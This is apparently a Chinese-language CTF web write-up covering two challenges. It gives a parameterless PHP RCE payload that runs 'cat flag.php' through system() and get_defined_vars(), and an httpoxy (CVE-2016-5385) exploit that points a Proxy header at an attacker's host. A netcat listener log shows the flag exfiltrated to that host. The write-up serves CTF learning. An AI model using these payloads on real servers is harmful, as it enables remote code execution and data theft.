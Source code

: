 # 2021-长安“战疫”-Web-Writeup

## RCE_No_Para

无参数rce了，根据https://skysec.top/2019/03/29/PHP-Parametric-Function-RCE/#%E6%B3%95%E4%B8%89%EF%BC%9Aget-defined-vars

操作数组的函数从PHP手册找就行了：

![image-20220108175948142](2021-长安“战疫”-Web-Writeup.assets/image-20220108175948142.png)

```
?1=cat flag.php&code=system(pos(pos(get_defined_vars())));
```

## FLAG配送中心

把PHP 5.6.23和fastcgi查一下就知道CVE-2016-5385，打一下就行

```
Proxy: http://121.5.169.223:39878/
```

```shell
root@VM-0-6-ubuntu:~# nc -lvvp 39878
Listening on [0.0.0.0] (family 0, port 39878)
Connection from 113.201.14.253 35092 received!
POST http://www.yunyansec.com/ HTTP/1.1
Proxy-Connection: Keep-Alive
User-Agent: GuzzleHttp/6.2.0 curl/7.38.0 PHP/5.6.23
Content-Type: application/x-www-form-urlencoded
Host: www.yunyansec.com
Content-Length: 40

YourFlag=cazy%7BWE_4r3_f4mily_for3vEr%7D^C
root@VM-0-6-ubuntu:~#

```

